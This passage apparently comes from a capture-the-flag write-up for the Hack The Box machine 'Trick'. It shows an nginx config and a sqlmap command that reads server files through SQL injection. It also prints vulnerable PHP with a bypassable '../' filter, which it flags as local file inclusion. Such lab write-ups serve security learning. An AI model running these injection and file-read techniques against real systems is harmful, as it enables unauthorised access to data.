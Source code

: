 ```bash
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;

        root /var/www/payroll;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }
}

```

We discovered another subdomain `preprod-marketing.trick.htb`. Let's add it to our `/etc/hosts` and navigate to it.

![mark](5.png)

The website seems to use a parameter to load html files. I smell an LFI here.

### LFI

I tried grabbing `/etc/passwd` but failed.

Since we have a file read with the sql injection, let's read the index.php file to see how it works.

From the `nginx` configuration file we see that the web root is located at `/var/www/market` so let's read `/var/www/market/index.php`.

```bash
sqlmap -u 'http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=1' --batch --cookie='PHPSESSID=boe7igm6vtkh5hhmu3l81gm9fh' --file-read "/var/www/market/index.php"
```

```php
<?php                                                                                          
$file = $_GET['page'];                                                                         
                                                                                               
if(!isset($file) || ($file=="index.php")) {                                                    
   include("/var/www/market/home.html");
}                                                                                              
else{
        include("/var/www/market/".str_replace("../","",$file));                     
}                                                                                              
?>             
```
